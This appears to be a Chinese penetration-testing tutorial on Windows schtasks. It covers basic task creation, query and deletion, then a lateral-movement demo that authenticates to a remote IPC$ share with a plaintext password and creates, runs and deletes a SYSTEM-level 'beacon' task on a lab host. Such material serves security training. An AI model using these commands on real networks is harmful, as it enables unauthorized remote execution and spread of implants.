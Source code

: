 ```
/RL   为作业设置运行级别。有效值为LIMITED 和 HIGHEST。默认值为 LIMITED。
/F    如果指定的任务已经存在，则强制创建任务并抑制警告。
```

### SCHTASKS常用命令演示

这里同样也是执行一些常见的命令。

#### 定时执行可以执行文件

这里我使用了本地用户添加了命令，由于刚开始域用户权限不足，所以使用的，后续已经调整。

```
schtasks /create /tn yuto /sc ONCE /st 22:00 /tr C:\1111\1.exe /ru system 
```

![image-20230622062100583](https://s2.loli.net/2023/06/24/FBaXZbGJzcWlTtd.png)

#### 查询定时任务

```
schtasks /query /tn test
```

![image-20230623065813784](https://s2.loli.net/2023/06/24/jHOMxSkr634ubi8.png)

#### 删除定时任务

```
schtasks /delete /tn test /f
```

![image-20230623065822922](https://s2.loli.net/2023/06/24/UFGvWRcao27OP5p.png)

### 横向移动schtasks命令演示

这里其实就是添加了一个/s 加ip地址。

```
net use \\192.168.20.50\ipc$ "admin123456" /user:yuto.combaobao   ##连接  
schtasks /create /s 192.168.20.50 /tn yuto /sc ONCE /st 22:00 /tr C:\1111\1.exe /ru system  ##创建任务
```

![image-20230623070948345](https://s2.loli.net/2023/06/24/UKlvqyrxonGfeBV.png)

```
schtasks /query /tn yuto  ##查询任务
```

![image-20230623071132340](https://s2.loli.net/2023/06/24/k6PbinArWMVUjH5.png)

远程删除或运行的命令

```
schtasks /run /s 192.168.20.50 /tn beacon /i #运行 beacon 任务
schtasks /delete /s 192.168.20.50 /tn beacon /f#删除 beacon 任务
```
